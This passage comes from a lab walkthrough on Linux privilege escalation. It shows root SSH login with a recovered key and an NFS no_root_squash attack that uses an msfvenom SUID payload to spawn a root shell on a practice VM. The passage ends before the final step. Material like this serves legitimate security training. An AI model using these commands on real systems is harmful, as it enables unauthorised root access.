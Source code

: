 `chmod 600 root_key

Use the key to login to the Debian VM as the root account:

`ssh -i root_key root@10.10.168.59

Remember to exit out of the root shell before continuing!

```

┌──(kali㉿kali)-[~]
└─$ ssh -o HostKeyAlgorithms=+ssh-rsa -i root_key.pem root@10.10.168.59
sign_and_send_pubkey: no mutual signature supported
root@10.10.168.59's password: 
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
root@debian:~# 

```

### NFS

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

`cat /etc/exports`

Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

`mkdir /tmp/nfs
`mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs``

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
